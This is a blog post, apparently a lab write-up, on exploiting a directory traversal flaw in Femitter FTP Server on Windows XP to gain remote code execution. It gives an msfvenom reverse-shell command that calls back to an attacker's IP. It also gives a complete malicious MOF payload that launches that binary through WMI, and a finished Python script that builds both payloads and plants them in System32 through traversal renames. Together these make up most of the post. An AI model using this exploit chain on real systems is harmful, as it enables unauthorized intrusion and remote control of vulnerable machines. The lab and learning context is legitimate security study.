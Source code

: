 ```yaml
---
layout: single
title: Exploiting Femitter FTP in a Post-Dropzone World
date: 2019-2-16
classes: wide
header:
  teaser: /assets/images/Femitter/fem.png
tags:
  - Femitter
  - Directory Transversal
  - DropZone
  - MOF
  - FTP
  - Windows XP
  - RCE
  - hackthebox.eu
--- 
```

  
  After watching [Ippsec's walkthrough for Dropzone](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=1743s) on [hackthebox.eu](https://hackthebox.eu), I was pretty amazed that you could get code execution on Windows XP with just write privileges. If you have not seen the walkthrough yet, I highly encourage you watch it. He goes over MOF files, Stuxnet, MSF's interactive Ruby shell, etc. 

  In the walkthrough, he uses TFTP to upload an executable to the victim's System32 directory and then uploads a malicious MOF file to the System32/wbem/mof directory which runs the executable. I had to try this for myself! I started thinking about potential XP lab setups and settled on Femitter FTP as it allows for directory transversal. Typically, this vulnerability is used to get directory listings/enumeration, but if there was a way to use the directory transversal to write to directories of interest, we could potentially replicate what Ippsec had done on Dropzone and get code execution. 

### Getting Femitter FTP Up and Running
  The Femitter installer can be downloaded [here](http://acritum.com/fem) and about half-way down the page there is a link to 'Download the latest version.' Once placed on your XP VM, simply run the installer with all default configurations and it will place a folder called 'Femitter' in your 'Program Files' directory. Navigate to the Femitter folder and run the exe. Click on the 'FTP Server' tab and select 'Start.' Check that your VM is now running the FTP server on port 21 with a simple nmap scan.
  
### Quest for RCE
  By default, Femitter will allow anonymous authentication and will drop an authenticated user into the C:/Program Files/Femitter/Shared directory which we cannot upload files to. After changing to the 'Upload' directory, we are able to place files onto the remote box. Let's first test the well-documented directory transversal vulnerability which can be found on Exploit DB [here](https://www.exploit-db.com/exploits/15445). 

![](/assets/images/Femitter/fem_dirTransverse.png)

  Ok awesome, the exploit from nearly 10 years ago still works, this is ground breaking stuff here ;). After trying a bunch of different ways to directly upload files to directories of interest, I was only able to find 2 ways with the Linux FTP client. As long as the working directory allows uploads, there are at least a couple of ways to get the files where we want them. The first way is to PUT the file and then specify the destination path.

![](/assets/images/Femitter/putSystem32.png)

The second way, is to PUT the file and then rename the file specifying it's full path. 

![](/assets/images/Femitter/putRename.png)

Now we have everything we need to get code execution since we can use the directory transversal to put files where we want them. I just used `msfvenom` to create my executable with `msfvenom -p windows/shell_reverse_tcp lhost=<yourIP> lport=443 -f exe -o zzzzz.exe` and I had already created a malicious MOF file following along with Ippsec's walkthrough (again, watch his walkthrough.) Set up your listener before you rename or put the MOF file in `/wbem/mof` as this is the action which runs our zzzzz.exe reverse shell. 

![](/assets/images/Femitter/putMOF.png)

![](/assets/images/Femitter/shellCatch.png)

Awesome!

### Scripting the Process for Fun

```python
#!/usr/bin/python

#This script is designed to take advantage of a directory transversal vulnerability in Femitter FTP Server <= 1.04;
#Tested on XP Professional x86;
#You will need to set up a listener to catch the reverse shell;
#You might also need to manually hardcode the ftp.cwd() command below if Femitter is not in a default configuration;
#Inspired by Ippsec's DropZone walkthrough & HackTheBox.eu

#1. creates an MSF payload;
#2. creates a MOF payload;
#3. uploads both payloads to writable dir;
#4. renames them to place them in system32 and system32/wbem/mof/ respectively;

import os
import sys
from ftplib import FTP

if len(sys.argv) != 3:
    print("Usage: femitter.py lhost lport\nExample: femitter.py 10.10.10.10 443")
    exit()
else:
    lhost = sys.argv[1]
    lport = sys.argv[2]

command = "msfvenom -p windows/shell_reverse_tcp lhost=" + lhost + " lport=" + lport + " -f exe --platform windows -a x86 -o zzzzz.exe >/dev/null 2>&1"


print('[+] creating msfvenom payload...' + '\r') 
os.system(command)

#creating our hardcoded MOF payload, thanks to ippsec
print('[+] creating MOF payload...' + '\r')
mof_file = open("exploit.MOF", "w")
mof_file.write("""#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass54266
{
  	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
 	[key] string Name;
  	[not_null] string ScriptingEngine;
  	string ScriptFileName;
  	[template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};

instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};

Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"zzzzz.exe\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass54266\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";

};

instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass54266\\"";
  QueryLanguage = "WQL";
};

instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};

instance of MyClass54266 as $MyClass
{
  Name = "ClassConsumer";
};

""")
mof_file.close()

victimIP = str(raw_input("[!] enter the victim IP: "))
username = str(raw_input("[!] enter Femitter FTP username: "))
password = str(raw_input("[!] enter Femitter FTP password: "))

#login to ftp server, change directories, upload our msfvenom payload, upload our .MOF payload, catch reverse-shell
print('[+] authenticating to Femitter server...')
try:
	ftp = FTP(victimIP)
	ftp.login(username,password)
except:
	print('[-] unable to connect to server')
try:	
	print('[+] uploading payloads...')
	ftp.cwd('Upload')
	#^Change this if femitter is not in default config!!^ 
	ftp.storbinary('STOR zzzzz.exe', open('zzzzz.exe', 'rb'))
	ftp.storbinary('STOR exploit.MOF', open('exploit.MOF', 'rb'))
except:
	print('[-] unable to upload payloads, non-default configuration?')
try:	
	print('[+] executing payloads...')
	ftp.rename('zzzzz.exe', '../../../../../../windows/system32/zzzzz.exe')
	ftp.rename('exploit.MOF', '../../../../../../windows/system32/wbem/mof/exploit.MOF')
	ftp.quit()
	print('[+] enjoy that shell ;)')
except:
	print('[-] unable to execute payloads')
```



  

  
